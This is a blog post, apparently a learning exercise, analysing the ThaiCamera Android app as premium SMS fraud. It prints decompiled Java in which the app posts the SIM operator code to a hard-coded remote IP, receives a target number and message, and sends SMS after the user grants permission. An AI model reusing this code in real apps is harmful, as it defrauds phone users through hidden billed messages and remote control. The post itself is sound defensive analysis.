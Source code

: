 ```yaml
---
title: ThaiCamera apk Malware Analysis
date: 2018-03-05 00:00:00 +0530
categories: [Android, Malware]
tags: [android, re, malware]
---
```


In the past year, I got the opportunity to look at various android apks and their pentest reports. I found these quite interesting and wanted to learn more. And to get a grip on the subject I did various courses which could be found online. But courses alone weren't sufficient to deepen my understanding. 

One of my friends suggested Maddie Stone's hands-on session on [Android 101](https://www.ragingrock.com/AndroidAppRE/) and I am blessed that I went ahead with it. It was a delight to work with many apks and understand what are the small nuances made the malicious. 

The first apk was a ThaiCamera.apk which could be doing premium SMS fraud. I did my analysis at start and found a couple of things and finally could prove that the apk was malicious. This was relatively easier to reverse as it was not heavily obfuscated and some of the malicious functionalities were straightforward. 

So, here is my process of analysing this. Please note that this might not be the best pathway or process to identify malwares or malicious activities, but since this was a simple apk, it worked out well for me.  

### Static Analysis

As usual, used jadx-gui to look at the source code and then I opened the manifest file to look for any unwanted permissions that the app was using. 

In that for a camera app, the send sms permission was suspisioucs : 

`<uses-permission android:name="android.permission.SEND_SMS"/>`

Keeping this in mind, I started looking at the classes with intent-filters and/or the ones that can be exported. 
The launcher acticity was `com.cp.camera.Loading` and I started to reverse this. 

```java
<activity android:label="@string/app_name" android:name="com.cp.camera.Loading" android:screenOrientation="portrait">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

```

![alt text](assets/images/thaicam.png "ThaiCamera")

In the loading class, we can already see some strings suggesting sending of SMS : 

`public static final String SENT_SMS_ACTION = "SENT_HUGE_SMS_ACTION";`
`private String IMEIS;`
`private String imeicontent;`

And a few others getting the device and operator details. 

```
TelephonyManager telManager = (TelephonyManager) getSystemService("phone");
String operator = telManager.getSimOperator();
```

In the oncreate function, we can see that a `loginByPost` is being called with operator as parameter (Operator is what is returned by the getSimOperator() function). 

`getSimOperator()` is a method in the TelephonyManager classused to retrieve the MCC+MNC of the subscriber's network.

```java
    public String loginByPost(String code) {
        String str = Build.VERSION.RELEASE;
        String str2 = Build.MODEL;
        getPhoneNumber();
        getDeviceId();
        try {
            String spec = "http://139.59.107.168:8088/appsharejson?code=" + code;
            URL url = new URL(spec);
            HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setRequestMethod("POST");
            urlConnection.setReadTimeout(5000);
            urlConnection.setConnectTimeout(5000);
            urlConnection.setDoOutput(true);
            urlConnection.setDoInput(true);
            if (urlConnection.getResponseCode() == 200) {
                InputStream is = urlConnection.getInputStream();
                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                byte[] buffer = new byte[1024];
                while (true) {
                    int len = is.read(buffer);
                    if (len != -1) {
                        baos.write(buffer, 0, len);
                    } else {
                        is.close();
                        baos.close();
                        return new String(baos.toByteArray());
                    }
                }
            } else {
                return "error";
            }
        } catch (Exception e) {
            e.printStackTrace();
            return "error";
        }
    }
```

The `loginByPost` method tries to send a POST request to a website along with the Network Code of the sim. If it is a success, then the response is copied and returned to the `jsonStr` String and the corresponding `service` and `content` are set according to the `imeicontent` object in the json. 

As this is based on the sim Operator (carrier network) of the user, this could mean that the `service` phone number is actually a premium number and the `content` is also something which could trigger the fraud. 

But before going into that part, there is something interesting happening here. 

The function checks the build version of the apk and if it is <23 then the sendMessage() is called but otherwise, the permission is checked. 

Specificlly it checks if this is granted - `android.permission.SEND_SMS`, if not a call to `requestPermissions()` happens. 

When you call `requestPermissions`, a dialog will be shown to the user asking for permission. Once the user responds, the system will invoke the `onRequestPermissionsResult` callback method in the activity, where the user's response is handled.


```java
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults[0] == 0) {
            if (this.service != null && this.content != null) {
                sendMessage(this.service, this.content);
                return;
            }
            return;
        }
        Toast.makeText(this, "Please allow access！", 1).show();
    }
```

As a result if the permission is granted, sendMessage() function is called with the service and content variables as parameters. If it is not granted by the user, a short notification is displayed, asking `"Please allow access！"`. 

Technically, this might seem to be authorized, as the SMS is being sent only when the user allows the permission "SEND_SMS". But no, this cannot be considered consent due to the fact that the user was not made aware that SMS will be sent to unknwon numbers or if SMS is actually going to be sent. 

Granting the app permission to send message does not mean the user consents to getting billed for sending SMS. 

```java
    public void sendMessage(String mobile, String content) {
        Bundle bundle = new Bundle();
        bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
        this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
        Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
        itSend.putExtras(bundle);
        SmsManager sms = SmsManager.getDefault();
        PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
        try {
            if (content.length() > 70) {
                List<String> msgs = sms.divideMessage(content);
                for (String msg : msgs) {
                    sms.sendTextMessage(mobile, null, msg, sentintent, null);
                }
                return;
            }
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        } catch (Exception e) {
            SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
            SharedPreferences.Editor editor = sharedPreferences.edit();
            editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
            editor.apply();
            e.printStackTrace();
        }
    }
```


Now digging a little more into the important functionality, a new intent with `"SENT_HUGE_SMS_ACTION"`  is created with the `SEND_SMS` extra and text message is sent according to the content retrieved from the `jsonStr` object. 

To summarise, three things are happening here : 

- The camera app is sending SMS messages
- The phone number and content that are being sent are retrieved from an external website (might be premium numbers)
- These happen without the knowledge of the user. 

Hence, we can conclude that Premium SMS fraud is indeed happening via the Camera app. 

Huge thanks to [Maddie Stone](https://twitter.com/maddiestone) for providing quality content helping all of us to get started with Android RE. 


